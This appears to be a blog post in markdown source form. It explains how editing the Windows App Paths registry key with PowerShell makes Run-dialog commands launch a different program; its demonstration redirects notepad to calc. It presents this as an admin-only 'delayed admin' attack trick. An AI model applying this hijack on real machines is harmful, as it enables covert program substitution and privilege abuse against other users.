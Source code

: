 ```yaml
---
title: "Silly Attack Using Run Line"
date: 2017-10-26T21:11:55-04:00
draft: false
toc: false
comments: true
categories:
- Windows
tags:
- Run Line

---
```


[Previously]({{< ref "2017-10-23-windows-run-line-vs-cmd.markdown" >}} "Run Line vs. cmd vs. PowerShell") we saw how Windows Run Line searches in `App Paths` registry keys before PATH. We can perform a silly attack and create a registry key for an application in path and point it to another command.

This is a silly attack because we need to be admin to create/edit those keys. But if you ever find yourself in the unlikely situation, you can use this to become delayed admin (i.e. wait for admin to run the app via Run Line).

<!--more-->

This also serves as a ~~tutorial~~ note for using PowerShell to list/manipulate registry.

Let"s pick `notepad` which is in PATH and point it to `calc`. Open an admin PowerShell prompt.

First check if key exists (note we have tab auto-complete inside registry):

``` powershell
# notepad does not have an entry
$ Test-Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\notepad.exe"
False
# chrome does
$ Test-Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\chrome.exe"
True
```

Now create the key and set the default property:

``` powershell
$ New-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths"
        -Name notepad.exe -Value "C:\Windows\System32\calc.exe"

    Hive: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths

SKC  VC Name                           Property
---  -- ----                           --------
  0   1 notepad.exe                    {(default)}

```

We could have set the default value later using `Set-Item`:

``` powershell
$ Set-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\notepad.exe"
           -Value "C:\Windows\System32\calc.exe"
```

To create new properties use `New-ItemProperty`. For example the property `Path` contains the working directory:

``` powershell
$ New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\notepad.exe" 
                   -Name Path -Value "C:\Windows\System32\"

PSPath       : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft
               \Windows\CurrentVersion\App Paths\notepad.exe
PSParentPath : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft
               \Windows\CurrentVersion\App Paths
PSChildName  : notepad.exe
PSDrive      : HKLM
PSProvider   : Microsoft.PowerShell.Core\Registry
Path         : C:\Windows\System32\
```

`ls/gci/Get-ChildItem` do not list the properties, only registry keys.

``` powershell
$ ls -path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\"
    Hive: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths

SKC  VC Name                           Property
---  -- ----                           --------
  0   2 chrome.exe                     {(default), Path}
  0   2 notepad.exe                    {(default), Path}

$ ls -path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\notepad.exe"
```

We need to get each property one by one (or use a PS script to run `$Key.GetValueNames()` and iterate over them).

Now open up Run Line and enter `notepad` to see `calc` pop up.

Silly attack because only admins can edit those registry keys.
